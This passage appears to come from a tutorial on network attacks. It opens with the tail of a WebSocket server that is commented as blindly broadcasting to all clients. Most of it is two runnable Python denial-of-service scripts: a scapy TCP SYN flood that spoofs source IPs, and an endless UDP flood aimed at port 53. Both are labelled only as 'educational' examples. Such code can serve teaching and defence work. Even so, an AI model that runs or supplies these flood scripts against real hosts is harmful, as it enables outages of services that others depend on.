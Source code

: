 ```javascript
    if (data.type === 'broadcast') {
      // Blindly broadcasts to all clients
      wss.clients.forEach(function each(client) {
        client.send(message);
      });
    }
  });
});
```

##### TCP SYN Flood Attack

This attack exploits the TCP handshake process by sending many SYN packets without completing the connection:

```python
# Educational example - DO NOT USE MALICIOUSLY
import socket
import random
from scapy.all import IP, TCP, send

# Target information
target_ip = "10.0.0.1"
target_port = 80

# SYN flood function
def syn_flood():
    for _ in range(4096):
        # Create spoofed IP
        source_ip = f"{random.randint(1, 254)}.{random.randint(1, 254)}.{random.randint(1, 254)}.{random.randint(1, 254)}"
        source_port = random.randint(1024, 65535)
        
        # Create SYN packet
        ip = IP(src=source_ip, dst=target_ip)
        tcp = TCP(sport=source_port, dport=target_port, flags="S", seq=random.randint(1000, 9000))
        
        # Send packet without completing handshake
        send(ip/tcp, verbose=0)
```

##### UDP Flood Attack

Similar to TCP SYN flood but using UDP protocols:

```python
# Educational example - DO NOT USE MALICIOUSLY
import socket
import random
import time

# Target information
target_ip = "10.0.0.1"
target_port = 53  # DNS port often used for amplification

# UDP flood function
def udp_flood():
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    
    # Generate random data
    bytes_data = random._urandom(1024)
    
    # Send continuous stream of packets
    while True:
        sock.sendto(bytes_data, (target_ip, target_port))
        time.sleep(0.001)  # Small delay to not overload local resources
```